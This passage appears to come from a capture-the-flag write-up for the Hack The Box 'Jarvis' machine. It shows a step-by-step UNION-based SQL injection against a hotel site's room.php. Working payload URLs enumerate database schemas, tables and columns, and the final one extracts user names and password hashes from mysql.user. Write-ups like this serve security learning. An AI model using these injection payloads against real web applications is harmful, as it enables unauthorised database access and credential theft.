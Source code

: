The table name is `room`.

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,GROUP_CONCAT(column_name),6,7 FROM information_schema.columns WHERE table_name='room' -- -
```

Returned column_names are `cod,name,price,descrip,star,image,mini`.
It seems that the database `hotel` is not that useful for now.
Let's check what other databases exist.

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,GROUP_CONCAT(schema_name),6,7 FROM information_schema.schemata -- -
```

Databases : `hotel,information_schema,mysql,performance_schema`
Let's check `mysql`.

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,GROUP_CONCAT(table_name),6,7 FROM information_schema.tables WHERE table_schema='mysql' -- -
```

Table names : `column_stats,columns_priv,db,event,func,general_log,gtid_slave_pos,help_category,help_keyword,help_relation,help_topic,host,index_stats,innodb_index_stats,innodb_table_stats,plugin,proc,procs_priv,proxies_priv,roles_mapping,servers,slow_log,table_stats,tables_priv,time_zone,time_zone_leap_second,time_zone_name,time_zone_transition,time_zone_transition_type,user`

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,GROUP_CONCAT(column_name),6,7 FROM information_schema.columns WHERE table_name='user' -- -
```

Column names : `Host,User,Password,Select_priv,Insert_priv,Update_priv,Delete_priv,Create_priv,Drop_priv,Reload_priv,Shutdown_priv,Process_priv,File_priv,Grant_priv,References_priv,Index_priv,Alter_priv,Show_db_priv,Super_priv,Create_tmp_table_priv,Lock_tables_priv,Execute_priv,Repl_slave_priv,Repl_client_priv,Create_view_priv,Show_view_priv,Create_routine_priv,Alter_routine_priv,Create_user_priv,Event_priv,Trigger_priv,Create_tablespace_priv,ssl_type,ssl_cipher,x509_issuer,x509_subject,max_questions,max_updates,max_connections,max_user_connections,plugin,authentication_string,password_expired,is_role,default_role,max_statement_time`

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,User,3,4,Password,6,7 FROM mysql.user -- -
```

![](attachments/jarvis_4.png)
